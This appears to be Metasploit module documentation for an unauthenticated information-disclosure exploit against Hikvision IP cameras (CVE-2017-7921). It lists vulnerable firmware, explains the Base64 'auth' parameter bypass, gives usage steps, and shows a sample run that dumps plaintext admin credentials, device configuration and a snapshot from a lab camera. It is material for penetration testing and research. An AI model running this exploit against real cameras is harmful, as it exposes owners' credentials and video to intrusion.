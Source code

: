 ## Vulnerable Application

Many Hikvision IP cameras have improper authorization logic that allows unauthenticated information disclosure
of camera information, such as detailed hardware and software configuration, user credentials, and camera snapshots.

This module allows the attacker to disclose this information without the need of authenticaton by utilizing the
improper authentication logic to send a request to the server which contains an `auth` parameter in the query string
containing a Base64 encoded version of the authorization in `username:password` format.
Vulnerable cameras will ignore the `password` parameter and will instead use the username part of this string
as the user to log in. Using user `admin` will allow an attacker to retrieve and disclose any information
of the targeted device.

The vulnerability has been present in Hikvision products since 2014.
In addition to Hikvision-branded devices, it affects many white-labeled camera products sold under a variety of brand names.

Below is a list of vulnerable firmware, but many other white-labelled versions might be vulnerable.

* DS-2CD2xx2F-I Series: V5.2.0 build 140721 to V5.4.0 build 160530
* DS-2CD2xx0F-I Series: V5.2.0 build 140721 to V5.4.0 Build 160401
* DS-2CD2xx2FWD Series: V5.3.1 build 150410 to V5.4.4 Build 161125
* DS-2CD4x2xFWD Series: V5.2.0 build 140721 to V5.4.0 Build 160414
* DS-2CD4xx5 Series: V5.2.0 build 140721 to V5.4.0 Build 160421
* DS-2DFx Series: V5.2.0 build 140805 to V5.4.5 Build 160928
* DS-2CD63xx Series: V5.0.9 build 140305 to V5.3.5 Build 160106

Installing a vulnerable test bed requires a Hikvision camera with the vulnerable firmware loaded.

## Verification Steps

This module has been tested against a Hikvision camera with the specifications listed below:

* MANUFACTURER: Hikvision.China
* MODEL: DS-2CD2142FWD-IS
* FIRMWARE VERSION: V5.4.1
* FIRMWARE RELEASE: build 160525
* BOOT VERSION: V1.3.4
* BOOT RELEASE: 100316

1. `use auxiliary/gather/hikvision_info_disclosure_cve_2017_7921`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `check`
1. `set PRINT true`
1. `set ACTION Automatic`
1. `run`
1. You should get a full disclosure of all camera information supported by this module.

## Options
### PRINT
This option allows you print all information collected to the console during execution except for
camera snapshots.

## Actions
### Automatic
Retrieves all information suported by this module
### Configuration
Retrieves the camera hardware and software configuration
### Credentials
Retrieves all configured users including the passwords in plain text format and stores them in the database.
This can be checked by using the command `creds -O <target IP>` at the Metasploit prompt.
### Snapshot
Takes a camera snapshot and stores it as a JPEG file in loot.

All information disclosed is by default stored in loot

## Scenarios

### Hikvision Camera DS-2CD2142FWD-IS -> firmware version V5.4.1, build 160525

```
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set ACTION Automatic
ACTION => Automatic
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set PRINT true
PRINT => true
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > options

Module options (auxiliary/gather/hikvision_info_disclosure_cve_2017_7921):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PRINT    true             no        Print output to console (not applicable for snapshot)
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.100.180  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Auxiliary action:

   Name       Description
   ----       -----------
   Automatic  Dump all information


msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > check
[+] 192.168.100.180:80 - The target is vulnerable.
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > run
[*] Running module against 192.168.100.180

[*] Running in automatic mode
[*] Getting the user credentials...
[*] Credentials for user:admin are added to the database...
[*] Credentials for user:admln are added to the database...
[*] User Credentials Information:
-----------------------------
Username:admin | ID:1 | Role:Administrator | Password: Pa$$W0rd
Username:admln | ID:2 | Role:Operator | Password: asdf1234

[+] User credentials are successfully saved to /root/.msf4/loot/20221002172346_default_192.168.100.180_hikvision.creden_049224.txt
[*] Getting the camera hardware and software configuration...
[*] Camera Device Information:
--------------------------
Device name: IP CAMERA
Device ID: 88
Device description: IPCamera
Device manufacturer: Hikvision.China
Device model: DS-2CD2142FWD-IS
Device S/N: DS-2CD2142FWD-IS2016HS77777777777
Device MAC: bc:ad:28:ff:ff:ff
Device firware version: V5.4.1
Device firmware release: build 160525
Device boot version: V1.3.4
Device boot release: 100316
Device hardware version: 0x0

Camera Network Information:
---------------------------
IP interface: 1
IP version: v4
IP assignment: static
IP address: 192.168.100.180
IP subnet mask: 255.255.255.0
Default gateway: 192.168.100.1
Primary DNS: 8.8.8.8

Camera Storage Information:
---------------------------
Storage volume name: HDD1
Storage volume ID: 1
Storage volume description: DAS
Storage device: HDD
Storage type: internal
Storage capacity (MB): 30543
Storage device status: HD_NORMAL

[+] Camera configuration details are successfully saved to /root/.msf4/loot/20221002172347_default_192.168.100.180_hikvision.config_549113.txt
[*] Taking a camera snapshot...
[+] Camera snapshot is successfully saved to /root/.msf4/loot/20221002172348_default_192.168.100.180_hikvision.image_963468.bin
[*] Auxiliary module execution completed

msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > creds -O 192.168.100.180
Credentials
===========

host             origin           service        public  private   realm  private_type  JtR Format
----             ------           -------        ------  -------   -----  ------------  ----------
192.168.100.180  192.168.100.180  80/tcp (http)  admln   asdf1234         Password
192.168.100.180  192.168.100.180  80/tcp (http)  admin   Pa$$W0rd         Password

msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) >
```

## Limitations
No limitations are identified so far using this module.
